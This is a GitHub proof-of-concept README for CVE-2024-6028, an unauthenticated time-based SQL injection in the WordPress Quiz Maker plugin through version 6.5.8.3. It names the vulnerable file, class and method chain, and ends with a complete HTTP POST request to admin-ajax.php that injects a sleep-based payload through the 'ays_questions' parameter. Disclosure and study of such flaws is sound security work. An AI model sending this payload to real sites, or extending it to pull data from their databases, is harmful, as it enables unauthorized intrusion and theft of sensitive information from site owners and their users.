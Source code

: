 # CVE-2024-6028-Poc
CVE-2024-6028 Quiz Maker &lt;= 6.5.8.3 - Unauthenticated SQL Injection via 'ays_questions' Parameter

## Description
The Quiz Maker plugin for WordPress is vulnerable to time-based SQL Injection via the 'ays_questions' parameter in all versions up to, and including, 6.5.8.3 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/quiz-maker/quiz-maker-6583-unauthenticated-sql-injection-via-ays-questions-parameter

File: https://github.com/truonghuuphuc/CVE-2024-6028-Poc/blob/main/quiz-maker.6.5.8.3.zip

File: wp-content/plugins/quiz-maker/public/class-quiz-maker-public.php

Class: Quiz_Maker_Public

Workflow: method ays_finish_quiz -> method get_questions_categories and method get_quiz_questions_by_ids
![image](https://github.com/truonghuuphuc/CVE-2024-6028-Poc/assets/20487674/4b2831fa-d6e4-4ce4-b333-406ab4e0b08c)
![image](https://github.com/truonghuuphuc/CVE-2024-6028-Poc/assets/20487674/21791f11-1c1b-4137-9e96-c249172800e5)
![image](https://github.com/truonghuuphuc/CVE-2024-6028-Poc/assets/20487674/6ad46038-4668-4d26-a0c2-1748c7a741db)
![image](https://github.com/truonghuuphuc/CVE-2024-6028-Poc/assets/20487674/580ad4dd-3cbb-4785-b7e1-8fb0340c2864)


## Poc

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: <Host>
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

ays_quiz_id=1&ays_quiz_questions=1,2,3&quiz_id=1&ays_questions[ays-question-4)+or+sleep(if(1>0,5,0)]=&action=ays_finish_quiz
```
![image](https://github.com/truonghuuphuc/CVE-2024-6028-Poc/assets/20487674/3ec61ab7-11fd-4320-8073-6cdd550dac1b)
